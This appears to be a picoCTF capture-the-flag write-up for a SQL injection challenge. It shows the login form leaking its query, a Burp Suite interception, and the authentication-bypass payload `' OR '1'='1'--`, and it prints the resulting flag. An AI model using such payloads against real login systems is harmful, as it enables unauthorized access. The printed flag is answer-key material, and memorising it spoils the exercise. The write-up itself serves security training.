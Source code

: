 # More SQLi
## Description
Can you find the flag on this website.
Try to find the flag [here](http://saturn.picoctf.net:64986/).
## Hint
SQLiLite
## Solution
- The website has a login page with fields for username and password.
- Entering random data and submitting the form showed this message
```
username: sfa
password: asfdaf
SQL query: SELECT id FROM users WHERE password = 'asfdaf' AND username = 'sfa'
```
- This message shows that the website is vulnerable to SQL injection.
- opened burpsuite and intercepted the request and sent it to the repeater.
- saw this text in the HTTP header: `username=wds&password=sdfa`
- Modified the request to `username=wds&password=' OR '1'='1'--` and sent it.
- Got the flag in the response: `picoCTF{G3tting_5QL_1nJ3c7I0N_l1k3_y0u_sh0ulD_78d0583a}`